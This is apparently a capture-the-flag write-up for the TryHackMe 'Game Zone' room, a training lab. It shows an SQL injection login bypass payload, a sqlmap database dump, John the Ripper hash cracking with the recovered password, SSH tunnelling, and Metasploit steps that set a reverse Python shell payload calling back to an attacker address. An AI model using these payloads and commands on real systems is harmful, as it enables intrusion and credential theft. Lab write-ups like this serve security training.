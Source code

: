 # Game Zone

**Room Link:** [https://tryhackme.com/room/gamezone](https://tryhackme.com/room/gamezone)



### **Obtain access via SQLi**

Username field was vulnerable to SQLi,

```
Username: ' or 1=1 -- -
Password: anything
```

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (3).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (11) (1) (2) (1).png" alt=""><figcaption></figcaption></figure>

### **Using SQLMap**

I setup burp to intercept requests and then tried searching for something on the portal page

<figure><img src="../../.gitbook/assets/image (10) (2) (1).png" alt=""><figcaption></figcaption></figure>

Saved the request into a file called request.txt, if you highlight everything and right click you can copy to file

<figure><img src="../../.gitbook/assets/image (4) (3) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (29) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (6) (3) (2).png" alt=""><figcaption></figcaption></figure>

```
sqlmap -r request.txt --dbms=mysql --dump
```

<figure><img src="../../.gitbook/assets/image (7) (1) (2).png" alt=""><figcaption></figcaption></figure>

**In the users table, what is the hashed password?**

ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14

**What was the username associated with the hashed password?**

agent47

**What was the other table name?**

post

<figure><img src="../../.gitbook/assets/image (26) (1).png" alt=""><figcaption></figcaption></figure>

****

### **Cracking a password with JohnTheRipper**

Used the following site to idenfitfy what the hash type was. It identified that it is SHA2-256.

**Hash Analyzer:** [https://www.tunnelsup.com/hash-analyzer/](https://www.tunnelsup.com/hash-analyzer/)

<figure><img src="../../.gitbook/assets/image (27) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**What is the de-hashed password?**

john was able to crack the hash ehich gave us the password videogamer124.

```
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=RAW-SHA256
```

<figure><img src="../../.gitbook/assets/image (14) (2).png" alt=""><figcaption></figcaption></figure>

```
ssh agent47@10.10.74.145
Password: videogamer124
```

\
**Now you have a password and username. Try SSH'ing onto the machine. What is the user flag?**

<figure><img src="../../.gitbook/assets/image (30) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Exposing services with reverse SSH tunnels**

**How many TCP sockets are running?**

```
ss -tulpn
```

<figure><img src="../../.gitbook/assets/image (8) (1) (2).png" alt=""><figcaption></figcaption></figure>

**What is the name of the exposed CMS?**

```
ssh -L 10000:localhost:10000 agent47@10.10.74.145
Password: videogamer124
```

<figure><img src="../../.gitbook/assets/image (24) (2) (1).png" alt=""><figcaption></figcaption></figure>

**What is the CMS version?**

I was able to login with the previous credentials found and find the CMS version.

```
Username: agent47
Password: videogamer124
```

<figure><img src="../../.gitbook/assets/image (28) (1).png" alt=""><figcaption></figcaption></figure>

### **Privilege Escalation with Metasploit**

****

<figure><img src="../../.gitbook/assets/image (16) (3).png" alt=""><figcaption></figcaption></figure>

```
msfconsole
search 1.580
use 1
set USERNAME agent47
set PASSWORD videogamer124
set RHOSTS 127.0.0.1
set ssl false 

set payload cmd/unix/reverse_python
set lhost 10.10.108.150
set lport 443
exploit
```

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (2).png" alt=""><figcaption></figcaption></figure>
